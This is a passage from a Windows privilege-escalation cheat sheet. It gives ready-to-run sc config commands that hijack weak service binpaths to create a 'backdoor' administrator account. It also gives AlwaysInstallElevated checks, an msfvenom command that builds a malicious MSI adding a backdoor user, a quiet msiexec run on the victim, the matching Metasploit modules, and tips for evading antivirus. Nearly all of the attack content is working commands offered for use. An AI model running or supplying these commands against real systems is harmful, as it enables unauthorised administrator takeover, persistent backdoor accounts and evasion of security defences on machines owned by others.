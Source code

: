 - Then change the binpath to execute your own commands (restart of the service will most likely be needed):
```
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln-service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
```
Note - Might need to use the depend attribute explicitly:
```
sc stop <vuln-service>
sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
sc start <vuln-service>
```
##### Metasploit module:

      exploit/windows/local/service_permissions

## AlwaysInstallElevated
AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

- Check if these 2 registry values are set to “1”:

      reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
      reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

- If they are, create your own malicious msi:

      msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

- Then use msiexec on victim to execute your msi:

      msiexec /quiet /qn /i C:\evil.msi

- Metasploit module:

      exploit/windows/local/always_install_elevated

### Bypassing AV
```
   Use Veil-Evasion
   Create your own executable by “compiling” PowerShell scripts
   Use Metasploit to substitute custom EXE and MSI binaries. You can set EXE::Custom or MSI::Custom to point to your binary prior to executing the module.
```
